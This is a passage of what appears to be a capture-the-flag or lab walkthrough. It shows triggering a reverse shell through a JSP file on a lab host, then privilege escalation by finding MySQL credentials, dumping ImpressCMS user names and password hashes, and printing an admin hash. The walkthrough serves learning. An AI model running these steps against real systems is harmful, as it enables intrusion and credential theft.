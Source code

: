 8. Execute reverse shell at 
	```
	https://192.168.110.140:8443/rev64/odwzawzlkdcmzy.jsp
	```
	![](images/Pasted%20image%2020220120035445.png)
	
# Privilege Escalation 
## milton (Creds Found) 
1. Find mysql credentials under `/var/www`
	![](images/Pasted%20image%2020220120044951.png)
2. Obtain credentials impresscms database
	```
	mysql -u root
	SHOW databases;
	USE impresscms
	SELECT name, pass FROM i3062034b_users;
	```
	```
	ImpressCMS Admin:$23$5000$S4mancatNXCgGKpitGa5dTpN0uSo0iSIMPl3X5WdVXSEe8LILqDynHRa3R2OE5pPe-1c70c0c66700b42c4d1f2ec15638b6f5e0bbcbc03c50298ad79f765a33901709d825c9dbb98e703ea71af4bb826469fc0df5eb68e66e4192bf1651c6f06c060c  
